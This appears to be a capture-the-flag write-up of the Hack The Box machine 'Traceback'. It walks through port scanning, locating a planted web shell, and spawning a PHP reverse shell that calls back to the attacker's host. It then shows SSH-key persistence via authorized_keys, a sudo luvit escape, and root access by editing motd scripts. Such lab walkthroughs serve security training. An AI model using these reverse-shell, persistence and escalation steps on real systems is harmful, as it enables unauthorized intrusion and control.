


like always.. start with nmap
```console
kali@kali:~/ractf$ nmap -p- -vv traceback
Starting Nmap 7.80 ( https://nmap.org ) at 2020-06-06 19:39 EDT
Initiating Ping Scan at 19:39
Scanning traceback (10.10.10.181) [2 ports]
Completed Ping Scan at 19:39, 0.04s elapsed (1 total hosts)
Initiating Connect Scan at 19:39
Scanning traceback (10.10.10.181) [65535 ports]
Discovered open port 80/tcp on 10.10.10.181
Discovered open port 22/tcp on 10.10.10.181
Completed Connect Scan at 19:40, 32.71s elapsed (65535 total ports)
Nmap scan report for traceback (10.10.10.181)
Host is up, received syn-ack (0.039s latency).
Scanned at 2020-06-06 19:39:31 EDT for 33s
Not shown: 65533 closed ports
Reason: 65533 conn-refused
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
```
after I check the websie I found this
```html
<body>
	<center>
		<h1>This site has been owned</h1>
		<h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
		<h3> - Xh4H - </h3>
		<!--Some of the best web shells that you might need ;)-->
	</center>
</body>
```
So I google *Xh4H* along with *webshells*. The google will lead you to Xh4H's tweet when we tweeted about web shell



which bring me to this github [repo](https://github.com/TheBinitGhimire/Web-Shells). The web shell should be one of this. so let try


**Bingo**! I found it ```smevk.php```. But I do need a cerdential lol. no worry you will find it [here](https://github.com/TheBinitGhimire/Web-Shells/blob/master/smevk.php)



as you can see here in the web shell that we are allow to run : ```php, perl, tar, gzip, bzip2, nc, locate``` I do not like the interface so let spawn a reverse shell. start by run ```nc``` on ur kali and wait for the connection
```console
kali@kali:~$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [XXXXXXXX] from (UNKNOWN) [XXXXXXXX] 41528
/bin/sh: 0: can't access tty; job control turned off
```
now run ```$ php -r '$sock=fsockopen("ur",1234);exec("/bin/sh -i <&3 >&3 2>&3");'``` to spawn a reverse shell


we nowe have a reverse shell let enumerate and find out more about the machine, start with checking webadmin's home
```console
$ ls /home/webadmin
note.txt
$ cat /home/webadmin/note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```
Okey it seem like we will do something it Lua script. but im not sure where it is.


let check what commands we are allow to use:
```console
$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```
seem like we are allow to execute ```luvit``` as *sysadmin* without using password. I try to run bit but my reverse shell keep crashing.


I remember that we port22 ssh is open, let include out key in webadmin key so we can ssh in as him.
```console
kali@kali:~$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.10.15.126] from (UNKNOWN) [10.10.10.181] 41528
/bin/sh: 0: can't access tty; job control turned off
$ ls /home/webadmin/.ssh
authorized_keys
$ echo "ur id_rsa.pub" >> /home/webadmin/.ssh/authorized_keys
```
now let SSH to the machine using our private key
```console
kali@kali:~$ ssh webadmin@traceback -i .ssh/id_rsa
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Jun  6 17:32:51 2020 from 10.10.15.126
webadmin@traceback:~$ 
```
Yeah ! we are in !! let try to execute ```luvit```
```console
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit
Welcome to the Luvit repl!
```
now let make lua to spawn a shell. check this [link](https://netsec.ws/?p=337) and using ```-e``` which around use to "edit" ```luvit```
```console
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit -e "os.execute('/bin/sh')"
$ ls
note.txt
$ cat note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
$ cd ../sysadmin
$ ls 
luvit  user.txt
$ cat user.txt #flag
```
now let get root. I by checking ```crontab``` but I cant find anything interessting. I also run ````find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null ```` to find SUID + SUIG but there is nothing there either


I decided to check the current runing process, and I did find something **juicy**
```
webadmin@traceback:~$ ps -aux
root       1471  0.0  0.0  58792  3204 ?        S    18:03   0:00 /usr/sbin/CRON -f
root       1473  0.0  0.0   4628   768 ?        Ss   18:03   0:00 /bin/sh -c sleep 30 ; /bin/cp /var/backups/.update-motd.d/* /etc/update-motd.d/
root       1475  0.0  0.0   7468   764 ?        S    18:03   0:00 sleep 30
webadmin   1477  0.0  0.0  39664  3632 pts/0    R+   18:03   0:00 ps -aux
```
```/etc/update-motd.d/``` is run by root and keep it keep "reset" it self each 30 sec. let check what is in that directory
```console
webadmin@traceback:~$ ls -la /etc/update-motd.d/
total 32
drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 .
drwxr-xr-x 80 root root     4096 Mar 16 03:55 ..
-rwxrwxr-x  1 root sysadmin  981 Jun  6 18:03 00-header
-rwxrwxr-x  1 root sysadmin  982 Jun  6 18:03 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Jun  6 18:03 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Jun  6 18:03 80-esm
-rwxrwxr-x  1 root sysadmin  299 Jun  6 18:03 91-release-upgrade
```
as you can see here the we can edit all those files, After I checked files, I found out that ```00-header``` is the file that execute every time a user ssh in to the machine. You can see that you get the message contain in ```00-header``` when you ssh to the machine.


we can trick ```00-header``` and make it show root flag when we ssh to the mechine. Remember to do it fast, everything in ```/etc/update-motd.d/``` will be reset every 30 sec
```console
webadmin@traceback:~$ sudo -u sysadmin /home/sysadmin/luvit -e "os.execute('/bin/bash')" #spawn a bash insead shell is boring
sysadmin@traceback:~$ nano /etc/update-motd.d/00-header # now add cat /root/root.txt
Unable to create directory /home/webadmin/.local/share/nano/: Permission denied
It is required for saving/loading search history or cursor positions.

Press Enter to continue

sysadmin@traceback:~$ cat /etc/update-motd.d/00-header # view it.
#!/bin/sh
#
#    00-header - create the header of the MOTD
#    Copyright (C) 2009-2010 Canonical Ltd.
#
#    Authors: Dustin Kirkland <kirkland@canonical.com>
#
#    This program is free software; you can redistribute it and/or modify
#    it under the terms of the GNU General Public License as published by
#    the Free Software Foundation; either version 2 of the License, or
#    (at your option) any later version.
#
#    This program is distributed in the hope that it will be useful,
#    but WITHOUT ANY WARRANTY; without even the implied warranty of
#    MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
#    GNU General Public License for more details.
#
#    You should have received a copy of the GNU General Public License along
#    with this program; if not, write to the Free Software Foundation, Inc.,
#    51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.

[ -r /etc/lsb-release ] && . /etc/lsb-release


echo "\nWelcome to Xh4H land \n"
cat /root/root.txt
```
now exit and ssh to the machine to get root flag
```console
sysadmin@traceback:~$ exit
exit
true    'exit'  0
webadmin@traceback:~$ exit
logout
Connection to traceback closed.
kali@kali:~$ ssh webadmin@traceback -i .ssh/id_rsa
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land 

FLAG{XxXXXXXXXXXXXXXXX}


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sat Jun  6 18:17:34 2020 from 10.10.15.126
webadmin@traceback:~$ 
````